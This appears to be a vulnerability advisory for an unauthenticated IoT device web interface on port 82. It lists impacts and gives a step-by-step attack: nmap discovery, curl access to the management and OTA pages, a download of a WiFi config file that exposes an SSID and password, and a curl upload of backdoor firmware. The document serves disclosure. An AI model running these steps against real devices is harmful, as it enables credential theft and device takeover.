 ### Impact

Complete device compromise allowing an attacker to:

1. **Upload Malicious Firmware**
   - Install backdoors
   - Pivot to other network devices
   - Join device to botnet
   - Brick the device

2. **Steal Sensitive Data**
   - Download WiFi credentials
   - Export sensor data
   - Access configuration files

3. **Disrupt Operations**
   - Reboot device repeatedly
   - Format file system
   - Disable data collection
   - Corrupt sensor labels

4. **Network Infiltration**
   - Change WiFi to rogue AP
   - Capture network traffic
   - Lateral movement

### Attack Scenario

```
┌─────────────────────────────────────────────────────────────┐
│         UNAUTHENTICATED ACCESS ATTACK SCENARIO              │
└─────────────────────────────────────────────────────────────┘

Step 1: Network Discovery
──────────────────────────
$ nmap -p 82 192.168.1.0/24
Host: 192.168.1.100 - Port 82 open (HTTP)

Step 2: Access Web Interface
──────────────────────────
$ curl http://192.168.1.100:82/
HTTP/1.1 200 OK
[Full HTML dashboard returned - no authentication!]

Step 3: Explore Available Endpoints
──────────────────────────
$ curl http://192.168.1.100:82/manage
[Management panel accessible]

$ curl http://192.168.1.100:82/serverIndex
[OTA update page accessible - CRITICAL!]

Step 4: Download WiFi Configuration
──────────────────────────
$ curl http://192.168.1.100:82/download?file=/wifi_config.json
{
    "ssid": "2.4",
    "password": "P1rates15"
}
[WiFi credentials stolen!]

Step 5: Upload Malicious Firmware
──────────────────────────
$ curl -X POST http://192.168.1.100:82/update \
    -F "update=@backdoor_firmware.bin"
```